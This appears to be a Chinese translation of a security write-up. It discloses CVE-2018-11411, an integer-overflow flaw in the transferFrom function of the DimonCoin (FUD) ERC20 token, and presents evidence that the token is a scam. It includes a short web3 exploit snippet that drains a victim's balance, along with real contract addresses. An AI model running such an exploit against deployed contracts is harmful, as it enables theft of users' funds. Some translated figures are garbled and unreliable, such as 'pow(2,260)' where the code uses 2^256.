


# 迪蒙币(FUD)，ERC20 代币，允许攻击者窃取所有受害者的余额(CVE-2018–11411)

> 原文：<https://medium.com/coinmonks/dimoncoin-fud-erc20-token-allows-attackers-to-steal-all-victims-balances-cve-2018-11411-ba9a320604f9?source=collection_archive---------7----------------------->

# 摘要

我发现了一个关于迪蒙币(FUD)的智能合约的漏洞，一个以太坊 ERC20 令牌([CVE-2018–11411](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11411))[1]。该漏洞与 UselessEthereumToken 的漏洞[2，3]完全相同。迪蒙币令牌也有同样易受攻击的功能，即 UET 令牌中的转移而来的*。因此，攻击者可以通过利用该功能窃取受害者帐户中的所有余额。经过更多的调查，我发现迪蒙币(FUD)是一个骗局。FUD 代币有多个智能合约，其中一个已经被甩了。我在不同的合同中发现了漏洞，但还没有被丢弃。在本文中，我将解释漏洞和 FUD 令牌的细节。*

# 细节

如上所述，该漏洞与 UselessEthereumToken([CVE-2018–10468](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10468))【3】的漏洞相同。如果你看了《[*【UselessEthereumToken(UET)】，ERC20 token，允许攻击者窃取所有受害者余额(CVE-2018–10468)*](/coinmonks/uselessethereumtoken-uet-erc20-token-allows-attackers-to-steal-all-victims-balances-543d42ac808e)》这篇文章，对理解它会有帮助[2]。



Figure 1\. Code of transferFrom function in FUD smart contract

图一。显示了易受攻击的 *transferFrom* 函数。针对 ERC20 短地址攻击的验证被移至修饰符 *onlyPayloadSize* 。这是唯一的变化，其他部分与 UET 令牌中函数的*转换完全相同。*

如你所见，红框中的代码是错误的。根据代码，当`balances[_to] + _value`溢出时，用户可以转移比地址`_from`更多的余额。正确的代码应该如下所示:

```
bool sufficientFunds = fromBalance **>=** _value;
bool sufficientAllowance = allowance **>=** _value;
bool overflowed = balances[_to] + _value > balances[_to];if (sufficientFunds && sufficientAllowance && **overflowed**) {
```

## 剥削

攻击者所要做的就是找到一个目标帐户和一个值来引起溢出。如果目标账户余额为`0xaaaa`，该值应大于`pow(2,260)-0xaaaa`。如果值正好是`pow(2,260)-0xaaaa`，那么目标的所有余额都被转移到攻击者的账户。我的漏洞利用代码的一部分如下:

```
max = web3.utils.toBN('0x10000000000000000000000000000000000000000000000000000000000000000');
v_bal=web3.utils.toBN(await FUD.methods.balanceOf(victim).call());
FUD.methods.transferFrom(attacker, victim, max.sub(v_bal))
           .send({from:attacker, gas:1000000, gasPrice:1});
```

# 骗局

迪蒙币(FUD)已经被认为是一个骗局[4]。有多个 FUD 令牌的智能合约。我认为开发者创造了几个智能合同来隐藏他们的欺骗。合同中，一个是我找到的漏洞合同[5]，另一个是疑似开发商甩的合同[6]。在倾销合同中，一些账户拥有的代币多于总供应量[7]。



Figure 2\. All top 10 holders have tokens more than 1000000% of total supply

开发人员已经使用这两个合同地址在 bitcointalk 中公布了 FUD 令牌[8]。广告文章被翻译成几种语言，并且有 6 个翻译副本刊登了易受攻击的合同。

> -斯堪地那维克语/丹麦语:[https://bitcointalk.org/index.php?topic=2249616](https://bitcointalk.org/index.php?topic=2249616)
> -德语:[https://bitcointalk.org/index.php?topic=2254901](https://bitcointalk.org/index.php?topic=2254901)
> -意大利语:[https://bitcointalk.org/index.php?topic=2248634.0](https://bitcointalk.org/index.php?topic=2248634.0)
> -俄语:[https://bitcointalk.org/index.php?topic=2255885](https://bitcointalk.org/index.php?topic=2255885)
> -汉语:[https://bitcointalk.org/index.php?topic=2250544](https://bitcointalk.org/index.php?topic=2250544)
> -韩语:[https://bitcointalk.org/index.php?topic=2292406](https://bitcointalk.org/index.php?topic=2292406)

开发商已经拿走了他们的证据。官方网站、Telegram、Twitter 和 Github 页面关闭。只有脸书·佩吉还活着。

# 结论

我确信迪蒙币(FUD)是一个骗局。开发人员在没有合理原因的情况下创建了多个合同，一个被丢弃，另一个有漏洞。此外，与开发商的沟通渠道也被取消了。它已经广为人知，这是一个骗局，但仍有一些人进行交易的合同。所以，应该让更多的人知道。交易未经验证的硬币时请小心。

# 参考

*   [1][http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11411](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11411)
*   [2][https://medium . com/coin monks/uselessethereumtoken-uet-ERC 20-token-allows-attakers-to-steak-all-victims-balances-543d 42 AC 808 e](/coinmonks/uselessethereumtoken-uet-erc20-token-allows-attackers-to-steal-all-victims-balances-543d42ac808e)
*   [3]http://cve.mitre.org/cgi-bin/cvename.cgi?[name=CVE-2018-10468](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10468)
*   [https://bitcointalk.org/index.php?topic=2722276.0](https://bitcointalk.org/index.php?topic=2722276.0)
*   [5] [https://etherscan.io/token/0xf084d5bc3e35e3d903260267ebd545c49c6013d0](https://etherscan.io/token/0xf084d5bc3e35e3d903260267ebd545c49c6013d0)
*   [6] [https://etherscan.io/token/0xDe39E5A1B0eEB3Afe717D6d011CaE88D19451e](https://etherscan.io/token/0xDe39E5E5a1B0eEB3Afe717D6d011CaE88D19451e#balances)
*   [7] [https://etherscan.io/token/0xDe39E5E5a1B0eEB3Afe717D6d011CaE88D19451e#balances](https://etherscan.io/token/0xDe39E5E5a1B0eEB3Afe717D6d011CaE88D19451e#balances)
*   [8] [https://bitcointalk.org/index.php?主题:2247833.0](https://bitcointalk.org/index.php?topic=2247833.0)
*   [9] [http://dimoncoin.org](http://dimoncoin.org/cgi-sys/defaultwebpage.cgi)
*   [10] [https://t.me/DimonCoinFUDD](https://t.me/DimonCoinFUDD)
*   [11] [https://twitter.com/DimonCoin](https://twitter.com/DimonCoin)
*   [12] [https://github.com/dimoncoin/DimonCoin](https://github.com/dimoncoin/DimonCoin)
*   [13] [https://www.facebook.com/DimonCoin-120112948666326/](https://www.facebook.com/DimonCoin-120112948666326/)